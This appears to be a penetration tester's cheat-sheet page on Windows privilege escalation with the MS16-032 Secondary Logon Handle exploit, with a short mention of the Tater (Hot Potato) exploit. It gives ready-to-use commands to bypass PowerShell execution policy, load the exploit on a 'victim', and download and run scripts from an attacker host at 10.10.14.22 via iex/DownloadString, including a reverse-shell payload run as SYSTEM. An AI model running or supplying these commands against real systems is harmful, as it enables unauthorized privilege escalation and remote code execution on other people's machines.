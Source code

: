 

### MS16-032 Secondary Logon Handle

This script by Fuzzysecurity is amazing https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1, but might need a few changes as you can either modify it to run your own specified binary or run as is to spawn a cmd shell, which sometimes doesn't work unless you already have an RDP session on the victim. The target also needs to have 2+ CPU cores so this will fail often on vm boxes.

To check if the machine is patched 
```
wmic qfe list | find "3139914"
```

First off to just run it as usual upload the script to the victim and do this
```
powershell -nop -ep bypass
Import-Module C:\Users\Victim\Desktop\MS16-032.ps1
Invoke-MS16-032
```
Or you can try running it remotely from a normal windows shell this may not work unless its over RDP.
```
powershell -c `iex ((new-object net.webclient).downloadstring('http://10.10.14.22:8000/Invoke-MS16-032.ps1')); Invoke-MS16-032`
```

To have it call something other than the cmd.exe payload, modify this path located in the middle of Fuzzysec's script. This seems to be reliable with any msf payload.
```
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
$CallResult = [Advapi32]::CreateProcessWithLogonW(
"user", "domain", "pass",
0x00000002, "C:\Users\740i\Desktop\danger.exe", "",
0x00000004, $null, $GetCurrentPath,
[ref]$StartupInfo, [ref]$ProcessInfo)
```
There is also a custom binary from Meatballs that will just spawn a command prompt as system. https://github.com/Meatballs1/ms16-032

The Powershell empire version will take a -Command flag that makes it easy to run it against another reverse shell or a local command to escalate privileges. 
https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1

```
powershell.exe -nop -ep bypass
Import-Module C:\Users\740i\Desktop\Invoke-MS16032.ps1
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.22:8000/shell.ps1')"
```


### Tater

There's a few different implementations of this Hot Potato exploit, I've gotten lucky with the powershell version.
https://github.com/Kevin-Robertson/Tater
